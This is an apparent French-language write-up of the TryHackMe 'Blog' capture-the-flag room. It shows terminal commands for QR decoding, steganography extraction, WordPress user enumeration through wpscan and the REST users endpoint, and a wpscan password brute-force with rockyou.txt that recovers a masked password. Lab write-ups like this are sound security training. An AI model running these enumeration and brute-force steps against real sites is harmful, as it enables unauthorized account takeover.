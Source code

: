 L'utilitaire zbarimg permet de le lire sans utiliser son smartphone.
```
┌──(kali㉿kali)-[~/Challenge/TryHackMe/Blog]
└─$ zbarimg check-this.png 
QR-Code:https://qrgo.page.link/M6dE
scanned 1 barcode symbols from 1 images in 0 seconds
```
Le fichier **tswift.mp4** est un morceau d'un clip de musique de taylor swift avec un petit troll dedans ;).
Le fichier **Alice-White-Rabbit.jpg** est une image du lapin blanc du compte Alice aux pays des merveilles.
Je vais essayer de voir si il n'y a pas quelque chose de cacher dans cette image :
```
┌──(kali㉿kali)-[~/Challenge/TryHackMe/Blog]
└─$ steghide extract -sf Alice-White-Rabbit.jpg  
Enter passphrase: 
wrote extracted data to "rabbit_hole.txt".
```
Il y a un fichier txt:
```
You've found yourself in a rabbit hole, friend.
```
Mauvaise piste donc !
## wpscan
Un premier scan pour voir un peux, je ne le copie pas ici car il est beaucoup trop long !!!
```
wpscan --url http://blog.thm/wp-login.php -v --api-token=MYKEY
```
Il trouve quelques infos, avec l'option **--enumerate u** on retrouve les users, mais je vais vous montrer une autre methode pour obtenir ces infos sans outils !

La page **http://blog.thm/wp-json/wp/v2/users** nous montre quelques informations utiles !
```
[{"id":1,"name":"Billy Joel","url":"","description":"","link":"http:\/\/blog.thm\/author\/bjoel\/","slug":"bjoel","avatar_urls":{"24":"http:\/\/0.gravatar.com\/avatar\/9943fa6dfe2ab4088f676ff75dc1f848?s=24&d=mm&r=g","48":"http:\/\/0.gravatar.com\/avatar\/9943fa6dfe2ab4088f676ff75dc1f848?s=48&d=mm&r=g","96":"http:\/\/0.gravatar.com\/avatar\/9943fa6dfe2ab4088f676ff75dc1f848?s=96&d=mm&r=g"},"meta":[],"_links":{"self":[{"href":"http:\/\/blog.thm\/wp-json\/wp\/v2\/users\/1"}],"collection":[{"href":"http:\/\/blog.thm\/wp-json\/wp\/v2\/users"}]}},{"id":3,"name":"Karen Wheeler","url":"","description":"","link":"http:\/\/blog.thm\/author\/kwheel\/","slug":"kwheel","avatar_urls":{"24":"http:\/\/0.gravatar.com\/avatar\/3e7bf1e5f26496543c964dc04515bb6a?s=24&d=mm&r=g","48":"http:\/\/0.gravatar.com\/avatar\/3e7bf1e5f26496543c964dc04515bb6a?s=48&d=mm&r=g","96":"http:\/\/0.gravatar.com\/avatar\/3e7bf1e5f26496543c964dc04515bb6a?s=96&d=mm&r=g"},"meta":[],"_links":{"self":[{"href":"http:\/\/blog.thm\/wp-json\/wp\/v2\/users\/3"}],"collection":[{"href":"http:\/\/blog.thm\/wp-json\/wp\/v2\/users"}]}}]
```
Ici je trouve 2 comptes: 
Le compte de Billy Joel avec l'identifiant **bjoel**\n
Le compte de Karen Wheeler avec l'identifiant **kwheel**

# Brute Force de la page wp-login.php!
Je vais essayer de bruteforce la page de login de wordpress. Je vais utiliser wpscan pour faire cette tâche aussi.
```
wpscan --url http://blog.thm/wp-login.php -v --api-token=MYKEY -U bjoel --passwords /home/kali/Wordlist/rockyou.txt
```
Il ne trouve rien, je vais test avec le compte de Karen !
```
wpscan --url http://blog.thm/wp-login.php -v --api-token=MYKEY -U kwheel --passwords /home/kali/Wordlist/rockyou.txt
```
Bingo il me trouve un mot de passe :
```
[!] Valid Combinations Found:
 | Username: kwheel, Password: c*******1
```